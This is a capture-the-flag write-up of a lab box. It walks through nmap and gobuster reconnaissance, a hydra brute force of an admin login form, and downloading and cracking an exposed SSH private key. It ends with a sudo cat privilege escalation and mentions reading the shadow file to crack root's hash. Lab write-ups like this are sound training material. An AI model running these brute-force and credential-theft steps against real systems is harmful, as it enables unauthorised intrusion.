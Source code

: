 sudo nmap -sC -sV 10.10.249.93
![Image](./attachments/Pasted_image 20231219172106.png)

gobuster dir -u 10.10.136.132 -w /usr/share/wordlist/
![Image](./attachments/Pasted_image 20231220105112.png)

Looked at the source code on the normal page. Then at the admin page and found this:
![Image](./attachments/Pasted_image 20231220105137.png)

So we know that the login name is 'admin'.

Let's setup a hydra bruteforce attack.

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.136.132 http-post-form "/admin/:user=admin&pass=^PASS^:password invalid" 
![Image](./attachments/Pasted_image 20231220110248.png)

Found the password: xavier

We can no login and can see our first flag and the RSA private key to login to the SSH server for our next steps to get root on the box.
![Image](./attachments/Pasted_image 20231220110408.png)

We downloaded the key from the server on our local machine
wget 10.10.136.132/admin/panel/id_rsa 
![Image](./attachments/Pasted_image 20231220111710.png)

We then used ssh2john to create a hash from it:
ssh2john id_rsa > hash.txt

We now got the password for the rsa key.

We first need to update the key permissions with:
chmod 600 id_rsa

Then tried to login with the rsa key and the found password for the admin user, but that didn't work. But we know that there is the user 'john', so I tried it for that user and we are able to login and received the user.txt flag!
![Image](./attachments/Pasted_image 20231220112515.png)

Now it's time to for some PrivEsc!
Let's first run sudo -l
![Image](./attachments/Pasted_image 20231220112919.png)

We can run the cat command as sudo, so we can use that to give it our root flag in the root folder with
sudo cat /root/root.txt
![Image](./attachments/Pasted_image 20231220113016.png)
We got the root flag and finished the box.

If the root flag would not have been there, we could also see the content of the passwd and shadow file with the sudo cat command. 
We could have retrieved the root hash and crack it with john and get the password for the sudo user:
![Image](./attachments/Pasted_image 20231220113653.png)

Then on the machine we can move to the root folder and see the root.txt flag:
![Image](./attachments/Pasted_image 20231220113758.png)
